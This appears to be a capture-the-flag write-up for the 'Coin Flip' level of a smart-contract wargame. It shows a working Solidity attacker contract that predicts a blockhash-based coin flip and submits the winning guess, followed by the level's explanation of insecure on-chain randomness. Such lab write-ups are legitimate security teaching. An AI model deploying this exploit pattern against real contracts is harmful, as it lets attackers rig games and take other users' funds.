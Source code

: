 # 3. Coin Flip
**guess the correct outcome 10 times in a row**

the contract uses 
```
	uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
```

by creating an interface contract on remix to interact with the contract:

CoinGuess.sol
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol";

interface ICoinFlip {
    function consecutiveWins() external view returns (uint256);
    function flip(bool _guess) external returns (bool);
}

contract CoinGuess {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address coinflipAddress;

    function setCoinFlipAddr(address _coinflipAddress) public {
       coinflipAddress = _coinflipAddress;
    }
    
    function _flip() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        return ICoinFlip(coinflipAddress).flip(side);
    }
    
}
```
it is possible to find the flip value and flip in the same block
![[Pasted image 20211029152912.png]]

**end**

	Level completed!

	Difficulty 3/10

	Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

	To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

	Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).
